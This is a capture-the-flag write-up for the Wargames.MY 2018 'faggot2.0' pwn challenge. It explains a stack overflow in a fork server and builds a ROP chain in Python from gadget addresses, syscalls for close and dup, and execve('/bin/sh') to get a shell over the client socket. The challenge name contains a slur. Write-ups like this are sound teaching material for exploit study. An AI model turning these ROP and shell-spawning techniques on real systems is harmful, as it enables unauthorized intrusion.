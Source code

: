 ```yaml
---
layout: post
title: Wargames.MY 2018 - faggot2.0 (pwn) - ROP with unknown file descriptor
---
```


> [challenge][file]

It seems that no one solved this challenge during the competition. Due to the large amount of challenges, I also did not manage to work on this challenge, but solved it after the competition, so here's my writeup.

## Static Analysis
The program was rather straightforward, running as a fork server with the following pseudocode.

```c
int main() {
    int connectionfd;

    while(1) {
        int socketfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
        setsockopt(socketfd, SOL_SOCKET, SO_REUSEADDR, [1], 4);
        bind(socketfd, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 16);
        listen(socketfd, 5);
        connectionfd = accept(socketfd, {sa_family=AF_INET, sin_port=htons(51320), sin_addr=inet_addr("127.0.0.1")}, [16]));

        if (!fork())    // if fork() == 0, then this is the child, then break out of listening loop
            break;
    }

    // ran by child process
    close(socketfd);

    char buf[15];
    read(connectionfd, buf, 0xf);
    int nbytes = atoi(buf);

    char biggerbuf[0x80];
    read(connectionfd, biggerbuf, nbytes);
}
```

*If you are wondering how to get the enums for the socket API functions easily, I just ran `strace` on the challenge binary, which will show all system calls being called by the process.*

As we can see, we can choose how many bytes we want to read. Immediate thought is to use [ROP](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). A good place to learn ROP would be the [ROP Emporium](https://ropemporium.com).

`checksec ./challenge`
```
[*] '/root/ctfs/wargamesmy/faggot2/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

CANARY and PIE were not enabled for this challenge, which makes things easier.

## Exploitation
As the challenge binary itself implements the server, the best way to debug my exploit is by attaching GDB to the child process (aka the client) every time I want to test it.

For the sake of convenience, my terminal is set up this way.

![workenv][workenv]

The top left pane, running `strace ./challenge`, will tell me the pid of the child process, which I can attach to using GDB in the bottom left pane.

By passing in a De-Brujin pattern, we find that a padding of `152` bytes is needed until we reach the return address in the stack.

### ROP Chain
As we are given an arbitrary amount of bytes to write, there aren't really any restrictions on our ROP chain apart from the gadgets we can find.

Using [ropper](https://github.com/sashs/Ropper), I managed to find gadgets for controlling registers `rax`, `rdi`, `rsi` and `rbp`, and also to write `eax` into a memory relative to `rbp`.

```py
POP_RAX_RET = 0x4009d2
POP_RDI_RET = 0x400ba3
POP_RBP_RET = 0x400840
POP_RSI_RET = 0x400ba1
SYSCALL = 0x4009d4
MOV_DWORD = 0x4009cf  # mov dword ptr [rbp - 8], eax; pop rax; ret
```

So now it's all left to constructing the rop chain.

#### `execve`
The most convenient way is to just call `execve("/bin/sh", 0, 0)`. But we need a pointer referring to memory containing the string `"/bin/sh"`. 

Looking into the mappings of the process, we can write into this region.

```
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /root/ctfs/wargamesmy/faggot
```

With the gadgets found earlier, we can write `"/bin/sh"` into address `0x601500` 4 bytes a time using `eax`.

```py
# pop rbp, ret;  sets rbp to 0x601508
# pop rax, ret;  sets rax to "/bin\x00\x00\x00\x00", aka eax to "/bin/sh"
# mov dword ptr [rbp - 8], eax; pop rax; ret;  we can now write "/bin" into 0x601508

# now, do it again for "/sh\x00"
# skipping pop rax, ret because the previous gadget already contains it
# pop rbp, ret;
# mov dword ...

payload += p64(POP_RBP_RET) + p64(0x601508)
payload += p64(POP_RAX_RET) + "/bin\x00\x00\x00\x00"
payload += p64(MOV_DWORD) + "/sh\x00\x00\x00\x00\x00"
payload += p64(POP_RBP_RET) + p64(0x60150c)
payload += p64(MOV_DWORD) + p64(0)
```

With `"/bin/sh"` in place, we can point `rdi` to it, clear `rsi`, and set `rax` to `0x3b` with is the syscall number of `execve`. We ignore `rdx` as it was fortunately already set to 0 by the program itself before reaching here.
```py
# execve("/bin/sh", 0, 0);

payload += p64(POP_RDI_RET) + p64(0x601500)
payload += p64(POP_RSI_RET) + p64(0) + p64(0)
payload += p64(POP_RAX_RET) + p64(0x3b)
payload += p64(SYSCALL)           
```

Now we can run the send the payload and get our shell. But it doesn't work? Nothing happens. 

#### `close` and `dup`
Recall that when the server connects to our client, it uses a different file descriptor for IO instead of the standard `stdin`, `stdout` and `stderr` in 0, 1 and 2.

We need to replace 0, 1 and 2 with the file descriptor for our client. We can do that by first closing those 3 files, using the `close` syscall. Then use `dup(connectionfd)` to duplicate our client's `fd`. 

`dup` works by duplicating the information of the given file to the lowest file descriptor number possible that is not opened yet, in which case its 0, 1 and 2 which we just closed.

Similar to `execve` above, we can set our registers to replace the file descriptors.
```py
# close(0); close(1); close(2)           
payload += p64(POP_RDI_RET) + p64(0)              
payload += p64(POP_RAX_RET) + p64(3)              
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(1)
payload += p64(POP_RAX_RET) + p64(3)                                                     
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(2)                                                     
payload += p64(POP_RAX_RET) + p64(3)
payload += p64(SYSCALL)

# dup(4)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)   
```

Now we can send the payload, and get a working shell!

Not quite yet. As you can see, we are duplicating the file number 4. This is based on the assumption that no other clients are connected to the server at this point in time. This is because 0, 1 and 2 are occupied by `stdin`, `stdout` and `stderr`, 3 is occupied by `socketfd`, making 4 the lowest available file number, which is assigned to the next client that connects. If say there are 5 clients connected at this time, then we will be assigned file number 9.

Well, with the assumption that there aren't a lot of teams in this CTF, we can run this exploit a few more times if it fails.

The full exploit script can be found [here][xpl].

***

[file]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/challenge
[workenv]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/workenv.png
[xpl]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/xpl.py